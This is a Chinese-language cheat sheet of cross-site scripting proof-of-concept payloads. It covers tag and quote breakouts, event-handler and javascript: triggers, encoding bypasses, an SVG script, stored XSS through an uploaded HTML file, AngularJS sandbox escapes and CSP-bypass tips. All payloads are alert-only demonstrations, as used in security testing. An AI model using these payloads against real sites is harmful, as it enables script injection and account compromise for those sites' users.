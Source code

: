 ⚠️要么闭合标签，要么闭合引号⚠️  

## 常用POC:
- `"><script>alert(1)</script>`  
- `<img src=1 onerror=alert(1)>`  
- `" autofocus onfocus=alert(1) x="`  
- `<a href="javascript:alert(1)">`  
- `javascript:alert(1);`  
JavaScript伪协议，超链接的地方就可能会存在
- `"><svg onload=alert(1)>`  
- `<span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>`  
- `'-alert(1)-'`  
单引号作用：跳出前一个js

## 编码绕过POC：
- `&apos;-alert(1)-&apos;`  
- `';alert(1)//`
- 当单引号被转义时  
` \\';alert(1)// `
- 有引号处理文字时,如：var input='payload';  
` ${alert(1)} `
- url编码  
` %27%2dalert(1)%2d%27 `  
`%3Ca%20hREf%20%3D%20%27javasCriPt%3Aalert(%2Fxss%2F)%27%3Eclick%20me!%3C%2Fa%3E` javascript伪协议  

## 事件执行触发POC:
- accesskey:设置快捷键  
`<a href="url" accesskey="c">alert()</a>` ctrl+shift+c触发
- mouseover:鼠标移动  
`<span title="" onmouseover="alert(1)">" onmouseover="alert(1)"</span>`
- click:单击  
`<span title="" onclick="alert(1)">" onclick="alert(1)"</span>`

## SVG
```
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
	<circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
	<script>alert(1)</script>
</svg>
```

## 上传文件导致存储型XSS
上传文件修改为 `.html` ，内容为 `<img src=1 onerror=alert(document.domain)>`

## DOM XSS出现位置函数
`document.write、location.search、eval（）、location、someDOMElement.innerHTML/uterHTML/insertAdjacentHTML/onevent`

## 沙箱逃逸
- `toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`
- `<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">`
- `{{$on.constructor('alert(1)')()}}`

## 绕过CSP
- 悬空标记注入，指定url地址后面用？跟参数
- 修改响应包中CSP指令，覆盖现有规则script-src等